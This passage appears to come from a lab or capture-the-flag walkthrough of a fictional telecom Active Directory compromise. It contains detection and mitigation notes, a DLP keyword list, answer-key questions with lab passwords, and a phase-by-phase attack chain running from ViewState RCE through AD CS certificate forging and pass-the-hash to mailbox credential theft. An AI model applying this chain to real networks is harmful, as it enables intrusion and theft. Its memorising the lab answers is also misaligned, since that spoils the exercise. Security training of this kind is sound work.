- **Use:** Access internal assets, potential watering hole setup

**Why This Is Devastating:**
- Access to critical infrastructure (network, database, remote access)
- Contains operational secrets (temporary credentials, server names)
- Drafts show what the organization plans (unfiltered, unreviewed)
- Multiple systems compromised with single mailbox access
- Enables complete infrastructure takeover

**Pattern Analysis:**
- Credentials stored in drafts instead of vault
- "Temporary" credentials stored without rotation
- Credentials shared via email (bad practice)
- Administrator's mailbox is high-value target
- No indication of credential management system in use
- Multiple infrastructure teams communicating credentials insecurely

**Security Issues:**
- Operational credentials in email drafts
- No encryption of credential communications
- No secrets management system
- Credentials shared in plaintext
- Lack of credential rotation despite claiming "temporary"
- No DLP to prevent credential leakage
- Weak password format (predictable patterns)
- No access controls on sensitive drafts

**Detection:**
- DLP keyword detection (Password:, SSH, credentials, VPN, PSK, etc.)
- Unusual mailbox access patterns
- Bulk export of drafts
- Sensitive data classification violations
- Email content analysis with regex patterns
- Impersonation event correlation
- Exchange audit logs for EWS access

**Mitigation:**
- Implement secrets vault (Azure Key Vault, HashiCorp Vault)
- Automated credential rotation (especially "temporary" creds)
- DLP policies with strict keyword matching
- Secure credential distribution channels (not email)
- User training on email security and credential handling
- Redaction of credentials in historical emails
- Monitoring of drafts folder access
- Conditional access restricting mailbox access
- Implement credential scanning in email flows
- Deploy advanced threat protection for phishing/impersonation
- Regular security audits of email usage patterns

---

**Question 10:** What is the PROD Database "sqlprod-01.telecore.ad" password?
**Answer:** SqlB1lling@2024!

---

**Question 11:** What is the "Core Router Admin Access" username?
**Answer:** netadmin_jnpr

---

**Question 12:** Name of the Marketing Campaign Server that is found in the Administrator Mailbox?
**Answer:** GlobalBlast

---

## High-Level Attack Flow (Visual Summary)
```
Foothold (Web RCE) 
    ↓
Secret Harvest (Registry)
    ↓
Identity Escalation (AD CS)
    ↓
Domain Admin (PKINIT + Hash)
    ↓
Lateral Enumeration (SMB/Tasks)
    ↓
Service Credential Expansion (Exchange)
    ↓
Data Exposure (Mailbox Secrets)
    ↓
Consolidation (Full Infrastructure Compromise)
```

## Complete Attack Summary

### Phase 1: Initial Compromise (Steps 1-6)
- Nmap reconnaissance → IIS 10.0 discovered
- ViewState generator extraction → CA0B0334 obtained
- LFI vulnerability discovery → report parameter vulnerable
- Web.config extraction → ValidationKey + algorithm stolen
- Malicious ViewState generation → ysonet payload created
- Code execution → RCE as IIS App Pool "root"

### Phase 2: Privilege Escalation (Steps 7-14)
- System enumeration → Web-Srv hostname identified
- Registry enumeration → TelecomApp key found
- DPAPI decryption → tel_admin01 password obtained (T3l@Com#1)
- AD CS enumeration → ESC1/ESC4/ESC8 vulnerabilities discovered
- SID discovery → Administrator SID obtained
- Certificate requests → Two admin certificates forged (Tel_User + Badges)
- PKINIT authentication → Domain admin TGT + NT hash extracted

### Phase 3: Lateral Movement (Steps 15-18)
- SMB authentication → Pass-the-hash to Domain Controller
- Scheduled tasks enumeration → Exchange task discovered
- Task extraction → impersonate.ps1 identified
- Script analysis → tel_ops1 credentials obtained (T3l@Net#2)

### Phase 4: Data Exfiltration (Steps 19-21)
- Exchange impersonation verification → IMPERSONATION rights confirmed
- Mailbox extraction → 60 emails harvested from Admin mailbox
- Content analysis → VPN, DB, router, FTP credentials identified

### Complete Credential Chain
1. IIS App Pool "root" (initial foothold)
2. tel_admin01@telecore.ad / T3l@Com#1 (registry secret)
3. Administrator domain account (forged certificate + PKINIT)
4. tel_ops1@telecore.ad / T3l@Net#2 (scheduled task script)
5. Infrastructure credentials (mailbox extraction):
   - VPN: field_engineer_vpn / F1eldVPN@ccess$2024
   - DB: billing_prod_user / SqlB1lling@2024!
   - Router: netadmin_jnpr / Juniper$CorePass2024!
   - FTP: GlobalBlast campaign server

---

## Final Assessment

**Vulnerabilities Exploited:** 7 major categories
- Insecure ASP.NET ViewState deserialization
- Local File Inclusion (LFI)
- Exposed cryptographic keys
- DPAPI machine-scope encryption
- Misconfigured AD CS templates (ESC1/ESC4/ESC8)
- Hardcoded credentials in scripts
- Exchange mailbox impersonation abuse

**Systems Compromised:** 4 critical systems
- Web-Srv (IIS application server)
- Domain Controller (10.5.2.2)
- PKI Server (10.5.2.8)
- Exchange Server (ex-srv.telecore.ad)

**Data Breached:** High-value operational secrets
- Infrastructure credentials (network, database, remote access)
- Authentication credentials (VPN, router, FTP)
- Administrative access (domain admin account forged)
- Sensitive operational communications (mailbox drafts)

**Attack Duration:** Single engagement
- Initial foothold to complete domain compromise
- Minimal noise, high efficiency
- Multiple persistence mechanisms available

**Remediation Priority:** CRITICAL
- Immediate credential rotation (all exposed credentials)
- Certificate revocation (forged admin certs)
- Template hardening (restrict AD CS enrollment)
- Secret scanning implementation (prevent future leakage)
- DLP policies (protect sensitive communications)
- MFA enforcement (especially for administrative accounts)


